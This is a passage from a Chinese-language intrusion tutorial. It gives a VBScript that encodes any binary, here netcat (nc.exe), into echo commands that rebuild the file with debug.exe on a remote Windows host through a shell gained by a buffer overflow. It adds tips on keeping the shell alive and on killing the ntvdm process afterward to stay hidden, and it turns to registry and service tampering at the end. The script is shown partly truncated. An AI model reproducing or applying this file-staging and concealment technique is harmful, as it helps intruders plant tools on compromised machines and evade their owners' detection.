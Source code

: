 ```
.writeline """>>debug.vbs"+vbcrlf+"@echo with wscript.stdout:r=vbcrlf"_
+":for i=1 to len(str) step 48:.write ""e""+hex(256+(i-1)/2)"_
+":for j=i to i+46 step 2:.write "" ""+mid(str,j,2):next:.write r:next>>debug.vbs"
.writeline "@echo .write ""rbx""+r+"""+hex(slh)+"""+r+""rcx""+r+"""+hex(sll)_
+"""+r+""n debug.tmp""+r+""w""+r+""q""+r:end with"_
+">>debug.vbs&&cscript //nologo debug.vbs|debug.exe>nul&&ren debug.tmp """&fn&"""&del debug.vbs"
end with
```
将其保存为echo.vbs。假设要上传nc.exe，那么在本地命令行输入命令：
```
cscript echo.vbs nc.exe
```
也可以直接把要传输的文件的图标拖放到脚本文件的图标上。
稍等一会儿，在当前目录下将生成一个nc.exe.bat。用记事本等编辑工具打开它，可以看到如下内容：
```
@echo str="4D5A90000300000004000000FFFF0000B800000000000000400000000000000000000000000000000000000000000000000000000000000000000000800000000E1FBA0E00B409CD21B8014CCD21546869732070726F6772616D2063616E6E6F742062652072756E20696E20444F53206D6F64652E0D0D0A2400000000000000"_>>debug.vbs
@echo +"504500004C010400B98EAE340000000000000000E0000F010B010500009800000062000000000000004C00000010000000B0000000004000001000000002000004000000000000000400000000000000003001000004000000000000030000000000100000100000000010000010000000000000100000000000000000000000"_>>debug.vbs
@echo +"002001003C0000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000000A0210100640100000000000000000000000000000000000000000000000000002E74657874000000"_>>debug.vbs
@echo +"70970000001000000098000000040000000000000000000000000000200000602E726461746100001704000000B0000000060000009C0000000000000000000000000000400000402E646174610000004452000000C00000003E000000A20000000000000000000000000000400000C02E696461746100005C07000000200100"_>>debug.vbs
............
............（省略若干行）
............
@echo +"">>debug.vbs
@echo with wscript.stdout:r=vbcrlf:for i=1 to len(str) step 48:.write "e"+hex(256+(i-1)/2):for j=i to i+46 step 2:.write " "+mid(str,j,2):next:.write r:next>>debug.vbs
@echo .write "rbx"+r+"0"+r+"rcx"+r+"E800"+r+"n debug.tmp"+r+"w"+r+"q"+r:end with>>debug.vbs&&cscript //nologo debug.vbs|debug.exe>nul&&ren debug.tmp "NC.EXE"&del debug.vbs
```
全选 －》 复制 －》 切换到远程命令行窗口 －》 粘贴。
如果网速不是很慢的话，整个上传过程大约需要20秒。

几点说明：
1，大的文件传输不稳定，可能会使shell死掉。所以文件越小效果越好。建议原文件不要超过100KB。
2，在传输大文件前，可以先传个小的文件作为"热身"，让16位虚拟机ntvdm.exe驻留后台。所有文件传完后，为隐蔽起见，应该把ntvdm进程杀掉。
3，某些cmd shell每个命令都需要附加两个回车，那nc.exe.bat就不能直接用了。
4，单个命令的长度是有限的，所以不能只用一个echo完成全部任务。而且，对于nc提供的cmd shell，稍长一些的命令竟然会使shell自动退出（溢出了？）。你可以修改"i mod 128=0"语句中的128以调整每个echo命令的长度。每次echo的字符为这个数乘以2。
5，解码过程没有脚本参与也是可以的。使用脚本的目的是减少传输的数据量（因为压缩了数据）。如果有时间，我会写一个更完善的脚本，加强数据压缩能力，增加数据校验功能。

能上传文件当然一切都好办了，但很多操作用Windows自带的工具更方便。在你到处寻找需要的工具时，不要忘了Windows本身。

系统配置
这节包括三方面内容：注册表、服务和组策略。

先说注册表。很多命令行下访问注册表的工具都是交互式的，溢出产生的shell一般不能再次重定向输入/输出流，所以无法使用。
好在系统自带的regedit.exe足够用了。
